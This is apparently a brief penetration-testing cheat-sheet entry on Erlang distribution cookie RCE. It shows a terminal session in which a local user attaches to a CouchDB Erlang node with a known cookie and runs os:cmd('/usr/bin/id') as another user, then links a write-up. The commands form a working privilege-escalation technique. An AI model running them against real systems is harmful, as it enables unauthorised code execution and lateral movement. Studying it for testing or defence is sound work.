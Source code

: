 # Erlang

## Authentication Cookie RCE

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)

